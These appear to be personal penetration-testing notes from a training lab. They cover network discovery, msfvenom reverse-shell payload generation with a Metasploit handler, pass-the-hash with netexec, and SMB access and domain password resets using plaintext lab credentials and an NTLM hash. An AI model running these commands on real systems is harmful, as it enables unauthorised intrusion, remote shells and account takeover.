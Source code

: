 # Internal Pentest Methodology

When inside the target network:

- Start ligolo for pivoting.
- Run nmap/fping scan to find live hosts.
- Find open ports on the hosts.

```shell
# Scan for live hosts in the network
fping -g <subnet> | grep -v "unreachable" | awk '{print $1}'
nmap -sn -vv <subnet> -oN live_hosts

# Scan top 100 ports with slow speed to avoid issues in tunnel
nmap -F -iL live_hosts -T2 -vv -Pn -oN nmap_scan
```

- Enumerate common services.
- Start with trying to read SMB or NFS shares.
- Spend time on HTTP websites if available, potentially get foothold on the host.
- 


### Found new creds???

- Enumerate shares again.
- Check the password on the users you dont know the password of.
- Try to re-use it everywhere.



msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f exe -o shell.exe

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f elf -o shell.elf


use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp


autologon username:
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName


 netexec smb 172.16.8.20 -u 'Administrator' -H '0e20798f695ab0d04bc138b22344cea8' --local-auth


smbclient -U 'inlanefreight.local\hporter%Gr8hambino!' //172.16.8.3/SYSVOL



crackmapexec --users
cat dusers | awk '{print $5}' | sort | uniq



net rpc password "ssmalls" 'Gr8hambino!' -U "inlanefreight.local"/"hporter"%'Gr8hambino!' -S "dc01.inlanefreight.local"